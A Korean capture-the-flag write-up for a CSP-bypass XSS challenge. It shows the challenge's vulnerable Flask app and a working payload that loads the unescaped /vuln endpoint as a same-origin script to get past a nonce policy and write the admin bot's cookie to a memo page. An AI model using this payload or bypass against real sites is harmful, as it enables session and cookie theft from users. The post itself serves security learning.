 ```yaml
---
title: "[2025-08-05] CSP Bypass"
excerpt: "XSS"

categories:
  - Problem
tags:
  - [XSS]

permalink: /Problem/[2025-08-05] CSP Bypass/

toc: true
toc_sticky: true

date: 2025-08-05
last_modified_at: 2025-08-05
---
```


## 🦥 본문

- app.py

```
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers[
        "Content-Security-Policy"
    ] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'

memo_text = ""

@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)

app.run(host="0.0.0.0", port=8000)

```

기존의 XSS 문제들과 유사하다. 

추가된 점은 request 이후에 `add_header()` 메소드를 추가한다는 것이다.

- 다음과 같은 CSP 헤더를 추가한다
    
    ```html
    "default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce} 
    ```
    
- `nonce` 값은 보안상으로 안전한 랜덤값으로 설정한다.

`nonce` 부분을 해결하기 위해서는 외부 JS 로드를 통해 우회해야 한다. 마침 `script-src`도 `‘self’`이므로 다음과 같이 작성했다.

```html
<script src="/vuln?param=document.location='/memo?memo='+document.cookie"></script> 
```

돼야 되는 코드인데 왜 안될까 하다가 다음과 같이 풀었다.

### 풀이

```html
<script src="/vuln?param=document.location='/memo?memo='%2bdocument.cookie"></script>
```

1. 웹 드라이버에서 `<script src="… >`를 통해 실행하여 외부 JS를 가져온다
    1. 이때 src는  `document.location` 이므로 `script-src ‘self’` 를 우회
    2. 외부 JS를 로드하기 때문에 `nonce` 우회
2. `+` 가 아닌 `%2b` 로 사용
    
    왜냐하면 외부 JS를 로드할 때 자동 인코딩이 안되기 때문에 아래처럼 작동 
    
    `+` 는 URL에서 공백으로 해석되기 때문에 URL 인코딩.